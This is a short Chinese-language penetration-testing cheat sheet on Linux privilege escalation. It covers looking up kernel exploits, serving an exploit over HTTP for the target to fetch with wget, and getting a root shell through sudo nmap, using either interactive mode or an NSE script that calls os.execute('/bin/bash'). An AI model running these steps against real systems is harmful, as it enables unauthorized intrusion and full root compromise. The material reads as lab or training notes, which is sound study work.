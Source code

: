查看内核

```
uname -a
uname -r
```

searchsploit + 内核版本

google

https://www.cvedetails.com/



上传exp可以服务器开启http服务

靶机wget进行请求

```
sudo python3 -m http.server
wget http://10.10.10.10:8080/test
```



## Sudo

sudo -l查看当前用户可以使用的命令

https://gtfobins.github.io/ 

## nmap

### Nmap Interactive Mode Nmap 交互模式

如果你有执行 nmap 的 sudo 权限，可以使用两种方法通过 nmap 升级，这取决于机器上安装的版本。我们可以使用 `nmap -v` 检查 nmap 的版本。

对于 nmap 版本 2.02 到 5.21，可以与 nmap 一起使用交互模式来执行 shell 命令。

```shell
$ sudo nmap --interactive
这应该会给你一个升高的 shell。
```

### Nmap Scripting Engine Nmap 脚本引擎

较新版本的 nmap 已删除在交互模式下运行的选项。相反，我们可以通过使用 nmap 脚本功能执行自定义 lua 脚本来提升权限。`os.execute` 函数应该为我们提供对系统命令的访问。


下面是一个快速而肮脏的脚本，用于获取 root shell：

```shell
$ echo 'os.execute("/bin/bash")' > /tmp/rootme.nse
```

```shell
sudo nmap --script /tmp/rootme.nse
```

### Alternatives 选择
